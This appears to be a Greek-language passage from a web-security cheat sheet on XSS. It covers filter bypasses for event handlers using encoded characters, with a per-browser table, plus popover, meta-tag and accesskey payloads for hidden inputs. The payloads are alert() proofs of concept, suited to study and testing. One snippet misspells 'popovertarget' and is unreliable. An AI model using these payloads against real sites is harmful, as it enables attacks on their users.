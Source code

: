 Πρώτα απ' όλα, ελέγξτε αυτή τη σελίδα ([https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)) για χρήσιμους **"on" χειριστές συμβάντων**.\
Σε περίπτωση που υπάρχει κάποια μαύρη λίστα που σας εμποδίζει να δημιουργήσετε αυτούς τους χειριστές συμβάντων, μπορείτε να δοκιμάσετε τις παρακάτω παρακάμψεις:
```javascript
<svg onload%09=alert(1)> //No safari
<svg %09onload=alert(1)>
<svg %09onload%20=alert(1)>
<svg onload%09%20%28%2c%3b=alert(1)>

//chars allowed between the onevent and the "="
IExplorer: %09 %0B %0C %020 %3B
Chrome: %09 %20 %28 %2C %3B
Safari: %2C %3B
Firefox: %09 %20 %28 %2C %3B
Opera: %09 %20 %2C %3B
Android: %09 %20 %28 %2C %3B
```
### XSS σε "Μη εκμεταλλεύσιμες ετικέτες" (κρυφή είσοδος, σύνδεσμος, κανονική, μετα)

Από [**εδώ**](https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags) **είναι τώρα δυνατό να εκμεταλλευτούμε τις κρυφές εισόδους με:**
```html
<button popvertarget="x">Click me</button>
<input type="hidden" value="y" popover id="x" onbeforetoggle=alert(1)>
```
Και σε **meta tags**:
```html
<!-- Injection inside meta attribute-->
<meta name="apple-mobile-web-app-title" content=""Twitter popover id="newsletter" onbeforetoggle=alert(2) />
<!-- Existing target-->
<button popovertarget="newsletter">Subscribe to newsletter</button>
<div popover id="newsletter">Newsletter popup</div>
```
Από [**εδώ**](https://portswigger.net/research/xss-in-hidden-input-fields): Μπορείτε να εκτελέσετε ένα **XSS payload μέσα σε ένα κρυφό χαρακτηριστικό**, εφόσον μπορείτε να **πεισθείτε** τον **θύμα** να πατήσει τον **συνδυασμό πλήκτρων**. Στο Firefox Windows/Linux ο συνδυασμός πλήκτρων είναι **ALT+SHIFT+X** και στο OS X είναι **CTRL+ALT+X**. Μπορείτε να καθορίσετε έναν διαφορετικό συνδυασμό πλήκτρων χρησιμοποιώντας ένα διαφορετικό πλήκτρο στο χαρακτηριστικό πρόσβασης. Ακολουθεί ο φορέας:
```markup
<input type="hidden" accesskey="X" onclick="alert(1)">
```
**Το XSS payload θα είναι κάτι σαν αυτό: `" accesskey="x" onclick="alert(1)" x="`**

### Παράκαμψη Μαύρης Λίστας

Διάφορα κόλπα με τη χρήση διαφορετικής κωδικοποίησης έχουν ήδη αποκαλυφθεί σε αυτή την ενότητα. Πήγαινε **πίσω για να μάθεις πού μπορείς να χρησιμοποιήσεις:**

* **HTML κωδικοποίηση (HTML tags)**
* **Unicode κωδικοποίηση (μπορεί να είναι έγκυρος κωδικός JS):** `\u0061lert(1)`
* **URL κωδικοποίηση**
* **Hex και Octal κωδικοποίηση**
* **κωδικοποίηση δεδομένων**
